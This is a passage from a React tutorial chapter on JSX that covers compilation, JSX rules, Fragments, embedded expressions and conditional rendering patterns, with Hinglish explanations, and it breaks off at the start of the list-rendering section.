



<a id="9-jsx-javascript-xml"></a>

[⬅ Previous Chapter](#8-introduction-to-react) | [📖 Main Index](#main-index) | [Next Chapter ➡](#10-components-the-building-blocks)

---

# Chapter 9: JSX — JavaScript XML

## 📌 Learning Objectives

By the end of this chapter, you will:

- **Understand** what JSX is, why it exists, and what it compiles to
- **Master** the complete list of JSX rules — className, htmlFor, camelCase, self-closing tags
- **Explain** the difference between Classic JSX Transform and New JSX Transform
- **Use** Fragments correctly — shorthand and explicit with key prop
- **Know** exactly what can and cannot go inside `{}` in JSX
- **Apply** all conditional rendering patterns — ternary, `&&`, IIFE, switch, early return
- **Render lists** correctly with `.map()` and stable keys
- **Use** `dangerouslySetInnerHTML` safely with DOMPurify
- **Debug** the most common JSX gotchas — `0` rendering bug, Object as child error
- **Answer 10+ interview questions** on JSX internals confidently

---

<a id="chapter-index-table-9"></a>

## Chapter Index Table

| Topic No. | Topic Name | Subtopics |
|-----------|-----------|-----------|
| 9.1 | [What is JSX? Why it exists](#91-what-is-jsx-why-it-exists) | Syntactic sugar<br>JSX is not HTML<br>.jsx/.tsx files |
| 9.2 | [JSX Compilation](#92-jsx-compilation) | Babel/SWC pipeline<br>createElement output<br>Classic vs New transform |
| 9.3 | [JSX Rules — Complete List](#93-jsx-rules-complete-list) | Single root<br>className<br>htmlFor<br>Self-closing<br>camelCase<br>style object<br>JSX as expression |
| 9.4 | [Fragments — Why & How](#94-fragments-why-and-how) | Extra div problem<br>Shorthand<br>Explicit Fragment with key<br>When to use |
| 9.5 | [Embedding JavaScript in JSX](#95-embedding-javascript-in-jsx) | Expressions vs Statements<br>What can/cannot go in {}<br>Comments |
| 9.6 | [Conditional Rendering Patterns](#96-conditional-rendering-patterns) | Ternary<br>&&<br>IIFE<br>switch function<br>Early return<br>Null bugs |
| 9.7 | [Rendering Lists in JSX](#97-rendering-lists-in-jsx) | .map()<br>key prop<br>Anti-patterns<br>Best practices |
| 9.8 | [dangerouslySetInnerHTML](#98-dangerouslysetinnerhtml) | When & Why<br>XSS warning<br>DOMPurify |
| 9.9 | [JSX Gotchas & Common Mistakes](#99-jsx-gotchas-and-common-mistakes) | 0 rendering bug<br>false/null behavior<br>Object as child<br>map without return |
| 💡 | [Interview Questions](#-interview-questions) | 10+ Questions with Answers |
| 🧪 | [Practice Problems](#-practice-problems) | 5 Coding + 5 Theory |
| 🚀 | [Mini Project](#-mini-project) | Dynamic List Renderer |
| ⚡ | [Quick Revision](#-quick-revision) | Key bullets, traps, revision |
| 📌 | [Chapter Summary](#-chapter-summary) | Final takeaways |

---

## 9.1 What is JSX? Why it exists

<a id="91-what-is-jsx-why-it-exists"></a>

### What is it?

**JSX (JavaScript XML)** is a **syntax extension** for JavaScript that allows you to write HTML-like markup directly inside JavaScript code. It is NOT a separate language — it is syntactic sugar that gets compiled to plain JavaScript function calls before the browser ever sees it.

JSX was created by Facebook/Meta as part of React to solve the fundamental problem of describing UI structure alongside the logic that controls it.

---

### Why does it exist?

Before JSX, React components looked like this:

```javascript
// ❌ Without JSX — Pure React.createElement() calls
// This is valid React but extremely painful to write and read

function UserCard() {
  return React.createElement(
    'div',
    { className: 'card' },
    React.createElement('img', { src: 'avatar.jpg', alt: 'User' }),
    React.createElement(
      'div',
      { className: 'info' },
      React.createElement('h2', null, 'John Doe'),
      React.createElement('p', null, 'Frontend Developer'),
      React.createElement(
        'button',
        { onClick: handleFollow, className: 'btn-follow' },
        'Follow'
      )
    )
  );
}
```

```jsx
// ✅ With JSX — Same output, readable and maintainable
function UserCard() {
  return (
    <div className="card">
      
      <div className="info">
        <h2>John Doe</h2>
        <p>Frontend Developer</p>
        <button onClick={handleFollow} className="btn-follow">
          Follow
        </button>
      </div>
    </div>
  );
}
```

Both produce **identical output**. JSX is just the readable version.

---

### 🧠 Hinglish Intuition

JSX ek **shorthand language** hai jaise SMS mein "u r gr8" matlab "you are great." Browser ko actual "you are great" chahiye (JavaScript), toh compiler (Babel/SWC) tumhara shorthand padha ke real JavaScript mein convert kar deta hai.

JSX HTML jaisa dikhta hai, lekin woh HTML hai nahi. Jaise Hinglish English jaisi lagti hai but grammar alag hoti hai — waise hi JSX HTML jaisa lagta hai lekin rules alag hain (className, self-closing, camelCase, etc.).

---

### JSX is NOT HTML

| Concept | HTML | JSX |
|---------|------|-----|
| Class attribute | `class="box"` | `className="box"` |
| For attribute | `for="name"` | `htmlFor="name"` |
| Inline style | `style="color: red"` | `style={{ color: 'red' }}` |
| Self-closing | `<input>` (optional) | `<input />` (required) |
| Event handler | `onclick="fn()"` | `onClick={fn}` |
| Comments | `<!-- comment -->` | `{/* comment */}` |
| Boolean attrs | `disabled` | `disabled={true}` or just `disabled` |
| Custom attrs | Any string | `data-*` or `aria-*` (camelCase otherwise) |

---

### JSX lives in .jsx / .tsx files

```
File extensions:
.jsx   → JavaScript with JSX (React components in JS)
.tsx   → TypeScript with JSX (React components in TS)
.js    → Plain JavaScript (no JSX by default — depends on config)
.ts    → Plain TypeScript (no JSX)

Vite config (vite.config.js):
→ @vitejs/plugin-react handles .jsx/.tsx transformation automatically

Babel config (.babelrc or babel.config.js):
→ @babel/preset-react handles JSX transformation
→ Can be configured for classic or automatic (new) transform
```

> [!NOTE]
> Modern Vite + React projects configure `.js` files to also support JSX if needed. But convention is to use `.jsx` for files containing JSX markup — it signals to editors and tools that JSX syntax is present.

---

👉 <a href="#chapter-index-table-9">Go to Top 🔝</a>

---

## 9.2 JSX Compilation

<a id="92-jsx-compilation"></a>

### Babel/SWC Transformation Pipeline

When you write JSX, it goes through a transformation pipeline before reaching the browser:



**Babel** = JavaScript compiler written in JS (older, slower)
**SWC** = Rust-based JavaScript compiler (newer, 20-70x faster — used by Vite)

---

### What JSX Produces — createElement Output

```jsx
// JSX Input (what you write):
const element = (
  <div className="container" id="main">
    <h1>Hello, {name}!</h1>
    <p>Welcome to React</p>
  </div>
);

// Compiled Output (what Babel/SWC generates):
const element = React.createElement(
  "div",                              // type
  { className: "container", id: "main" },  // props
  React.createElement(
    "h1",
    null,
    "Hello, ",
    name,                             // dynamic expression
    "!"
  ),
  React.createElement(
    "p",
    null,
    "Welcome to React"
  )
);
```

```jsx
// Component JSX:
const card = <UserCard name="Alice" age={25} active />;

// Compiled:
const card = React.createElement(
  UserCard,           // type = component function (not a string!)
  {
    name: "Alice",
    age: 25,
    active: true      // boolean prop without value = true
  }
);
```

---

### Classic JSX Transform (React 16 and below)

In the classic transform, every `.jsx` file that uses JSX **must import React** even if you never use `React` directly in the code. This is because JSX compiles to `React.createElement()` — React must be in scope.

```jsx
// ❌ Classic transform — forgetting import causes error
// "React is not defined"
function Greeting() {
  return <h1>Hello</h1>;  // Compiles to React.createElement(...)
}

// ✅ Classic transform — React must be imported
import React from 'react';

function Greeting() {
  return <h1>Hello</h1>;  // ✅ React.createElement is available
}
```

---

### New JSX Transform (React 17+) — No Import Needed

React 17 introduced a **new JSX transform** that changes what JSX compiles to. The compiler automatically imports the JSX runtime functions — you no longer need `import React from 'react'` just for JSX.

```jsx
// ✅ New transform — NO React import needed for JSX
function Greeting() {
  return <h1>Hello</h1>;
}

// What the new transform compiles to:
import { jsx as _jsx } from 'react/jsx-runtime';

function Greeting() {
  return _jsx("h1", { children: "Hello" });
  // Note: children is now INSIDE props, not a separate argument!
}
```

**Comparison:**

| | Classic Transform | New Transform |
|--|------------------|---------------|
| **Available since** | Beginning | React 17 |
| **Import required** | `import React from 'react'` | None for JSX |
| **Compiles to** | `React.createElement()` | `_jsx()` from `react/jsx-runtime` |
| **children position** | Separate arguments | Inside props object |
| **Bundle impact** | Slightly larger | Slightly smaller |
| **Vite default** | No | Yes (`@vitejs/plugin-react`) |

```javascript
// Enabling new transform in Babel config:
// babel.config.js
module.exports = {
  presets: [
    ['@babel/preset-react', {
      runtime: 'automatic'  // ← This enables new transform
    }]
  ]
};

// In Vite — enabled by default via @vitejs/plugin-react
// vite.config.js
import react from '@vitejs/plugin-react';
export default {
  plugins: [react()]
  // Automatically uses new JSX transform
};
```

> [!IMPORTANT]
> In interviews: "Why did React 17 not add new features but was still a major release?" Answer: It introduced the **new JSX transform** which eliminates the need to import React in every component file. Also laid groundwork for Concurrent Mode.

---

👉 <a href="#chapter-index-table-9">Go to Top 🔝</a>

---

## 9.3 JSX Rules — Complete List

<a id="93-jsx-rules-complete-list"></a>

### Rule 1: Single Root Element

Every JSX expression must return **exactly one root element**. You cannot return sibling elements at the top level.

```jsx
// ❌ INVALID — Two root elements
function Profile() {
  return (
    <h1>Alice</h1>
    <p>Developer</p>
  );
}
// Error: Adjacent JSX elements must be wrapped in an enclosing tag

// ✅ VALID — Single root element
function Profile() {
  return (
    <div>
      <h1>Alice</h1>
      <p>Developer</p>
    </div>
  );
}

// ✅ VALID — Using Fragment (no extra DOM node)
function Profile() {
  return (
    <>
      <h1>Alice</h1>
      <p>Developer</p>
    </>
  );
}
```

**Why this rule?** JSX compiles to a single function call (`React.createElement()`). A function can only return one value. Two adjacent elements would be two separate values — invalid JavaScript.

---

### Rule 2: className Instead of class

`class` is a reserved keyword in JavaScript. JSX is JavaScript, so React uses `className`.

```jsx
// ❌ Wrong
<div class="container">Hello</div>
// Warning: Invalid DOM property `class`. Did you mean `className`?

// ✅ Correct
<div className="container">Hello</div>
<div className={`card ${isActive ? 'card--active' : ''}`}>Hello</div>
<div className={['card', isActive && 'card--active'].filter(Boolean).join(' ')}>
  Hello
</div>
```

---

### Rule 3: htmlFor Instead of for

`for` is a reserved keyword in JavaScript (used in for loops). JSX uses `htmlFor`.

```jsx
// ❌ Wrong
<label for="email">Email</label>

// ✅ Correct
<label htmlFor="email">Email</label>
<input id="email" type="email" />
// Now clicking the label focuses the input — correct accessibility behavior
```

---

### Rule 4: Self-Closing Tags (Required)

In HTML, some tags are optional to close (`<input>`, `<br>`, ``). In JSX, **all tags must be closed** — either with a closing tag or self-closing slash.

```jsx
// ❌ Wrong (valid HTML, invalid JSX)
<input type="text">
<br>

<hr>

// ✅ Correct (self-closing)
<input type="text" />
<br />

<hr />

// ✅ Custom components must also close
<MyComponent />
<MyComponent></MyComponent>
```

---

### Rule 5: camelCase Attributes

HTML attributes that are multiple words use camelCase in JSX. This applies to all DOM properties and event handlers.

```jsx
// HTML attribute → JSX attribute
tabindex       → tabIndex
maxlength      → maxLength
readonly       → readOnly
autocomplete   → autoComplete
autofocus      → autoFocus
crossorigin    → crossOrigin
enctype        → encType
formnovalidate → formNoValidate

// Event handlers — always camelCase
onclick   → onClick
onchange  → onChange
onsubmit  → onSubmit
onkeydown → onKeyDown
onmouseover → onMouseOver
onfocus   → onFocus

// Data and ARIA attributes — exceptions (use original case):
data-user-id    → data-user-id    // kebab-case preserved
aria-label      → aria-label      // kebab-case preserved
aria-hidden     → aria-hidden
```

```jsx
// ✅ Correct usage
<input
  type="text"
  maxLength={50}
  autoComplete="off"
  readOnly={false}
  tabIndex={0}
  onChange={handleChange}
  onKeyDown={handleKeyDown}
  aria-label="Search"
  data-testid="search-input"
/>
```

---

### Rule 6: Style as Object

In HTML, inline styles are strings. In JSX, `style` takes a **JavaScript object** with camelCase property names.

```jsx
// ❌ HTML-style string (INVALID in JSX)
<div style="color: red; font-size: 16px; background-color: blue">
  Hello
</div>

// ✅ JSX style as object
<div style={{ color: 'red', fontSize: '16px', backgroundColor: 'blue' }}>
  Hello
</div>
// Note: Two curly braces:
// Outer {} = JSX expression
// Inner {} = JavaScript object literal

// ✅ With dynamic values
const size = 16;
const primaryColor = '#007bff';

<div style={{
  fontSize: size + 'px',    // or `${size}px`
  color: primaryColor,
  padding: '10px 20px',
  borderRadius: '8px',
  display: 'flex',
  alignItems: 'center',     // 'align-items' in CSS
  justifyContent: 'center', // 'justify-content' in CSS
}}>
  Styled Content
</div>

// ✅ Using a style object variable
const cardStyle = {
  backgroundColor: '#fff',
  boxShadow: '0 2px 8px rgba(0,0,0,0.1)',
  borderRadius: '12px',
  padding: '20px',
};

<div style={cardStyle}>Card Content</div>
```

---

### Rule 7: JSX is an Expression

JSX expressions can be assigned to variables, returned from functions, stored in arrays, passed as arguments, and used anywhere a JavaScript expression is valid.

```jsx
// Assigned to variable
const heading = <h1>Hello</h1>;

// Returned from function
function getElement(type) {
  if (type === 'heading') return <h1>Heading</h1>;
  return <p>Paragraph</p>;
}

// In arrays
const items = [
  <li key="1">First</li>,
  <li key="2">Second</li>,
  <li key="3">Third</li>
];

// In ternary
const content = isLoggedIn ? <Dashboard /> : <Login />;

// Passed as prop
<Modal header={<h2>Modal Title</h2>} />

// In object
const components = {
  hero: <HeroSection />,
  features: <FeaturesSection />,
};
```

---

### 🧠 Hinglish Intuition

JSX rules ek nayi bhasha ke grammar jaisi hain. Jaise English mein "I am go" galat hai aur "I am going" sahi hai — waise hi JSX mein `class` galat hai aur `className` sahi hai. Browser ko nahi pata JSX, toh compiler (Babel) tumhara JSX padh ke proper JavaScript banata hai. Rules follow karo, compiler khush rahega.

---

👉 <a href="#chapter-index-table-9">Go to Top 🔝</a>

---

## 9.4 Fragments — Why & How

<a id="94-fragments-why-and-how"></a>

### The Extra Wrapper Div Problem

The single root rule means you often need a wrapper element. But extra `<div>` wrappers pollute the DOM, break CSS layouts (especially flexbox/grid), and add unnecessary nesting.

```jsx
// ❌ Problem: Extra div breaks flex layout
function TableRow() {
  // Returning TWO <td> elements from one component
  return (
    <div>  {/* ← This breaks table structure! <div> inside <tr> is invalid HTML */}
      <td>Name</td>
      <td>Age</td>
    </div>
  );
}

// In parent:
<table>
  <tbody>
    <tr>
      <TableRow />  {/* ← Renders <div> inside <tr> — INVALID */}
    </tr>
  </tbody>
</table>
```

**Real DOM output (broken):**
```html
<table>
  <tbody>
    <tr>
      <div>          <!-- ← Invalid! Browser auto-corrects, breaking layout -->
        <td>Name</td>
        <td>Age</td>
      </div>
    </tr>
  </tbody>
</table>
```

---

### Fragment Solution — No Extra DOM Node

```jsx
// ✅ Solution: Fragment renders NO DOM node
import { Fragment } from 'react';

function TableRow() {
  return (
    <Fragment>
      <td>Name</td>
      <td>Age</td>
    </Fragment>
  );
}

// Real DOM output (correct):
// <tr>
//   <td>Name</td>    ← No wrapper div!
//   <td>Age</td>
// </tr>
```

---

### Shorthand Fragment Syntax `<>...</>`

```jsx
// ✅ Shorthand — cleaner, most common
function UserInfo() {
  return (
    <>
      <h1>Alice Johnson</h1>
      <p>Frontend Developer</p>
      <p>alice@example.com</p>
    </>
  );
}

// Multiple components using fragments
function App() {
  return (
    <>
      <Header />
      <Main />
      <Footer />
    </>
  );
}
```

---

### Explicit Fragment with key Prop

The shorthand `<>` syntax **does NOT support the `key` prop**. When rendering a list of fragments, you must use `<React.Fragment key={...}>`.

```jsx
import { Fragment } from 'react';

// ❌ Shorthand cannot have key prop
function List({ items }) {
  return items.map(item => (
    <key={item.id}>  {/* INVALID SYNTAX */}
      <dt>{item.term}</dt>
      <dd>{item.definition}</dd>
    </>
  ));
}

// ✅ Explicit Fragment with key prop
function GlossaryList({ items }) {
  return (
    <dl>
      {items.map(item => (
        <Fragment key={item.id}>
          <dt>{item.term}</dt>
          <dd>{item.definition}</dd>
        </Fragment>
      ))}
    </dl>
  );
}

// Usage
const glossaryItems = [
  { id: 1, term: 'JSX', definition: 'JavaScript XML syntax extension' },
  { id: 2, term: 'VDOM', definition: 'Virtual DOM — in-memory UI representation' },
  { id: 3, term: 'Fiber', definition: 'React reconciler architecture' },
];

<GlossaryList items={glossaryItems} />
```

---

### When to Use Explicit Fragment vs Shorthand

| Situation | Use |
|-----------|-----|
| Simple grouping, no key needed | `<>...</>` shorthand |
| List rendering (needs key) | `<Fragment key={...}>` |
| When importing Fragment is already needed | `<Fragment>` (consistency) |
| Table rows, list items structure | `<Fragment>` (prevents DOM issues) |

---

### 🧠 Hinglish Intuition

Fragment ek **transparent wrapper** hai — jaise invisible ink. Likha toh hai lekin DOM mein dikhta nahi. Jab tumhe do cheezein ek saath return karni ho lekin extra div nahi chahiye, toh Fragment use karo. `<>` shorthand likhna aasaan hai, lekin `key` chahiye toh explicit `<Fragment key={...}>` likhna padega.

---

👉 <a href="#chapter-index-table-9">Go to Top 🔝</a>

---

## 9.5 Embedding JavaScript in JSX

<a id="95-embedding-javascript-in-jsx"></a>

### Expressions vs Statements in {}

The curly braces `{}` in JSX can contain **any valid JavaScript expression** — but NOT statements.

```
Expression: Produces a value
  42
  "hello"
  name
  2 + 2
  isLoggedIn ? "Yes" : "No"
  items.map(i => <li>{i}</li>)
  Math.max(a, b)
  user.name.toUpperCase()

Statement: Performs an action (does NOT produce a value)
  if (condition) { ... }
  for (let i = 0; i < 10; i++) { ... }
  const x = 5;
  switch (value) { ... }
  function greet() { ... }
```

---

### What CAN Go in {}

```jsx
function Demo({ user, items, count }) {
  return (
    <div>
      {/* ✅ Variable */}
      <p>{user.name}</p>

      {/* ✅ String literal */}
      <p>{"Hello World"}</p>

      {/* ✅ Number */}
      <p>{42}</p>

      {/* ✅ Arithmetic expression */}
      <p>{count * 2}</p>

      {/* ✅ String method */}
      <p>{user.name.toUpperCase()}</p>

      {/* ✅ Ternary (conditional expression) */}
      <p>{user.isActive ? 'Active' : 'Inactive'}</p>

      {/* ✅ Short-circuit */}
      {user.isPremium && <PremiumBadge />}

      {/* ✅ Array.map() — returns array of elements */}
      <ul>
        {items.map(item => <li key={item.id}>{item.name}</li>)}
      </ul>

      {/* ✅ Function call that returns JSX */}
      {renderUserStatus(user)}

      {/* ✅ Template literal */}
      <p>{`Hello, ${user.name}! You have ${count} messages.`}</p>

      {/* ✅ Logical expression */}
      <p>{user.age >= 18 && 'Adult'}</p>

      {/* ✅ Nullish coalescing */}
      <p>{user.nickname ?? user.name}</p>
    </div>
  );
}
```

---

### What CANNOT Go in {}

```jsx
function BadExamples() {
  return (
    <div>
      {/* ❌ if statement — not an expression */}
      {if (true) { <p>Hello</p> }}

      {/* ❌ for loop — not an expression */}
      {for (let i = 0; i < 3; i++) { <p>{i}</p> }}

      {/* ❌ Variable declaration — not an expression */}
      {const x = 5}

      {/* ❌ function declaration — not an expression */}
      {function greet() { return <p>Hi</p> }}

      {/* ❌ Plain object — will cause "Objects are not valid as React child" */}
      {{ name: 'Alice', age: 25 }}
    </div>
  );
}
```

---

### Workarounds for Statements in JSX

```jsx
// ❌ Can't use if directly — use ternary or move logic out
// ✅ Approach 1: Ternary
{isLoggedIn ? <UserMenu /> : <LoginButton />}

// ✅ Approach 2: Move to variable before return
function App({ isLoggedIn }) {
  let content;
  if (isLoggedIn) {
    content = <UserMenu />;
  } else {
    content = <LoginButton />;
  }
  return <div>{content}</div>;
}

// ❌ Can't use for loop — use .map()
// ✅ Approach: Array.map()
{items.map(item => <li key={item.id}>{item.name}</li>)}

// ❌ Can't use switch — use render function
// ✅ Approach: IIFE or extracted function
{(() => {
  switch (status) {
    case 'loading': return <Spinner />;
    case 'error': return <Error />;
    case 'success': return <Content />;
    default: return null;
  }
})()}
```

---

### Comments in JSX

```jsx
function App() {
  // ✅ Regular JS comment — OUTSIDE JSX (before return or between expressions)
  const title = 'Hello'; // This is fine

  return (
    <div>
      {/* ✅ JSX comment — inside JSX markup */}
      {/* This is the correct way to comment inside JSX */}

      <h1>{title}</h1>

      {/* ✅ Multi-line JSX comment */}
      {/*
        This component renders a greeting.
        It accepts a title prop.
        Author: Arjun
      */}

      {/* ❌ HTML comment won't work in JSX */}
      {/* <!-- This will show as text, NOT a comment --> */}

      <p>Content</p>

      {/* ✅ Comment between elements */}
      {/* TODO: Add loading state */}
      <Footer />
    </div>
  );
}
```

> [!TIP]
> Quick shortcut in VS Code for JSX comments: Select text and press `Ctrl+/` (or `Cmd+/` on Mac). VS Code automatically uses `{/* */}` when inside JSX context.

---

👉 <a href="#chapter-index-table-9">Go to Top 🔝</a>

---

## 9.6 Conditional Rendering Patterns

<a id="96-conditional-rendering-patterns"></a>

### Pattern 1: Ternary Operator

Best for: Simple if/else with two outcomes.

```jsx
function UserGreeting({ isLoggedIn, userName }) {
  return (
    <div>
      {/* ✅ Basic ternary */}
      {isLoggedIn ? (
        <h1>Welcome back, {userName}!</h1>
      ) : (
        <h1>Please sign in.</h1>
      )}

      {/* ✅ Nested ternary (avoid if too complex) */}
      {isLoggedIn ? (
        userName === 'admin' ? (
          <AdminDashboard />
        ) : (
          <UserDashboard />
        )
      ) : (
        <LoginPage />
      )}
      {/* ⚠️ Nested ternaries hurt readability — use early return instead */}
    </div>
  );
}
```

---

### Pattern 2: Short-Circuit && Operator

Best for: Render something OR nothing (no else needed).

```jsx
function Notifications({ hasNotifications, count, isPremium }) {
  return (
    <div>
      {/* ✅ Render badge only if there are notifications */}
      {hasNotifications && <NotificationBadge count={count} />}

      {/* ✅ Render premium features only for premium users */}
      {isPremium && <PremiumFeatures />}

      {/* ✅ Chain multiple conditions */}
      {isLoggedIn && isPremium && hasNotifications && <SpecialAlert />}
    </div>
  );
}
```

> [!IMPORTANT]
> **The `0` Bug with `&&`:** This is the most famous JSX gotcha. If the left side of `&&` is `0` (falsy number), React renders `0` to the DOM — not nothing!

```jsx
// ❌ BUG: Renders "0" in the UI when count is 0
{count && <Badge>{count}</Badge>}
// When count = 0: false but 0 is rendered as "0" text!

// ✅ FIX 1: Convert to boolean
{!!count && <Badge>{count}</Badge>}

// ✅ FIX 2: Explicit comparison
{count > 0 && <Badge>{count}</Badge>}

// ✅ FIX 3: Ternary
{count ? <Badge>{count}</Badge> : null}
```

---

### Pattern 3: IIFE in JSX

Best for: Complex logic that can't be a ternary — switch statements, multiple conditions.

```jsx
function StatusDisplay({ status, data, error }) {
  return (
    <div className="status-container">
      {(() => {
        // Complex logic inside IIFE
        if (!status) return null;

        switch (status) {
          case 'idle':
            return <IdlePlaceholder />;

          case 'loading':
            return <LoadingSpinner message="Fetching data..." />;

          case 'error':
            return (
              <ErrorMessage
                message={error?.message || 'Something went wrong'}
                onRetry={() => fetchData()}
              />
            );

          case 'success':
            return data.length === 0
              ? <EmptyState />
              : <DataGrid rows={data} />;

          default:
            return <p>Unknown status: {status}</p>;
        }
      })()}
    </div>
  );
}
```

---

### Pattern 4: Switch-Based Render Function

Best for: Complex conditions — cleaner alternative to IIFE, easier to test.

```jsx
// Define render function outside component (or inside as const)
function renderContent(status, data, error) {
  switch (status) {
    case 'loading':
      return <LoadingSpinner />;
    case 'error':
      return <ErrorMessage message={error.message} />;
    case 'success':
      return <DataDisplay data={data} />;
    case 'empty':
      return <EmptyState />;
    default:
      return null;
  }
}

function Dashboard({ status, data, error }) {
  return (
    <div className="dashboard">
      <Header />
      {/* Clean, readable */}
      {renderContent(status, data, error)}
      <Footer />
    </div>
  );
}
```

---

### Pattern 5: Early Return Pattern

Best for: Guard clauses — return early for loading/error/empty states to avoid deeply nested ternaries.

```jsx
// ✅ Early return — cleanest pattern for multiple conditions
function UserProfile({ userId }) {
  const { user, loading, error } = useUser(userId);

  // Guard clause 1: Loading state
  if (loading) {
    return <LoadingSpinner />;
  }

  // Guard clause 2: Error state
  if (error) {
    return <ErrorBoundary error={error} />;
  }

  // Guard clause 3: Empty/not found state
  if (!user) {
    return <NotFound message="User not found" />;
  }

  // Happy path — we KNOW user exists here
  return (
    <div className="profile">
      <h1>{user.name}</h1>
      <p>{user.bio}</p>
      <PostsList posts={user.posts} />
    </div>
  );
}
```

---

### Pattern 6: Avoiding Null Rendering Bugs

```jsx
// React renders:
// ✅ null       → nothing (intentional empty)
// ✅ undefined  → nothing
// ✅ false      → nothing
// ✅ true       → nothing (boolean values don't render)
// ❌ 0          → "0" (renders as text!)
// ❌ NaN        → "NaN" (renders as text!)
// ❌ ""         → nothing (empty string, fine)
// ❌ { }        → Error: Objects are not valid as React child

function SafeRendering({ count, label, data }) {
  return (
    <div>
      {/* ✅ Safe */}
      {null}         {/* → renders nothing */}
      {undefined}    {/* → renders nothing */}
      {false}        {/* → renders nothing */}
      {true}         {/* → renders nothing */}

      {/* ❌ Dangerous */}
      {0}            {/* → renders "0" */}
      {NaN}          {/* → renders "NaN" */}

      {/* ✅ Fix for 0 bug */}
      {count > 0 && <span>{count}</span>}

      {/* ✅ Returning null from render = renders nothing */}
      {count === 0 ? null : <span>{count}</span>}
    </div>
  );
}

// ✅ A component returning null renders nothing (no DOM node)
function ConditionalDisplay({ show, children }) {
  if (!show) return null;  // Component renders, but returns null = no output
  return <div>{children}</div>;
}
```

---

### 🧠 Hinglish Intuition

Conditional rendering ko aise samjho:
- **Ternary** = Ek sawaal, do jawab. "Logged in hai? Welcome dikhao : Login dikhao."
- **&&** = Sirf ek condition. "Badge hai? Badge dikhao. Nahi hai? Kuch mat dikhao."
- **Early return** = Pehle sab problems check karo, phir kaam karo. Jaise doctor pehle serious cases handle karta hai.
- **IIFE/Switch** = Complex logic ke liye — jaise traffic policeman status ke hisaab se signal deta hai.

---

👉 <a href="#chapter-index-table-9">Go to Top 🔝</a>

---

## 9.7 Rendering Lists in JSX

<a id="97-rendering-lists-in-jsx"></a>

### .map() for List Rendering

The standard way to render lists in React is `Array.map()` — which returns an array of React elements.

```jsx
// Basic list rendering
function FruitList({ fruits }) {
  return (
    <ul>
      {fruits.map(fruit => (
        <li key={fruit.id}>{fruit.name}</li>
      ))}
    </ul>
  );
}

// Usage
<FruitList fruits={[
  { id: 1, name: 'Apple' },
  { id: 2, name: 'Banana' },
  { id: 3, name: 'Cherry' },
]} />
```

```jsx
